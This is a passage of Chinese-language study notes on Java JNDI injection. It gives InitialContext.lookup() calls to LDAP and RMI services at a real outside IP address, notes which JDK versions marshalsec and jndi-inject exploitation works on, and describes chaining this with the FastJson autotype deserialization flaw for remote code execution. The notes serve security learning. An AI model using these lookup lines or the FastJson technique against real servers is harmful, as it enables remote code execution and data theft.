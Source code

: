 ```java
        //new InitialContext().lookup("ldap://47.94.236.117:1389/Test");
 
        //RMI marshalsec工具
        //JDK 17版本 无法调用
        //11版本无法调用
        // 8u362 无法执行
        // 8U112 可以
 
        //RMI jndi-inject工具
        //JDK 17版本 无法调用
        //11版本无法调用
        // 8u362 无法执行
        // 8U112 可以
        //new InitialContext().lookup("rmi://47.94.236.117:1099/Test");
 
        //LDAP  - marshalsec工具
        //JDK 17
        // 11版本
        // 8u362
        // 8U112 都可以
 
        //LDAP  - jndi-inject工具
        //JDK 17版本 无法调用
        //11版本无法调用
        // 8u362 无法执行
        // 8U112 可以
        new InitialContext().lookup("ldap://47.94.236.117:1389/awvmkm");
        
    }
}
```

1. jndi - rmi ldap服务

2. rmi ldap 都可以进行远程调用对象 可以远程执行java代码class文件

3. 攻击利用中就用到了jndi-inject项目和marshalsec

   发现 jdk高版本会影响rmi和ldap的利用（marshalsec针对ldap有高版本绕过方法）

4. 利用要知道其他类也能调用jndi注入（rmi,ldap）

## JNDI注入-FastJson漏洞结合

背景：JavaEE中接受用户提交的JSON数据进行转换(FastJson反序列化漏洞)

思路：利用InitialContext.lookup()中的进行JdbcRowSetImpl类JNDI服务注入

漏洞利用：**FastJson autotype处理Json对象的时候，未对@type字段进行完整的安全性验证，攻击者可以传入危险类**，并调用危险类连接远程RMI主机，通过其中的恶意类执行代码。攻击者通过这种方式可以实现远程代码执行漏洞，获取服务器敏感信息，甚至可以利用此漏洞进一步的对服务器数据进行操作。

参考文章：https://blog.csdn.net/weixin_49150931/article/details/126056687

创建项目，在pom.xml中添加依赖项fastjson，之后新建类，代码如下：
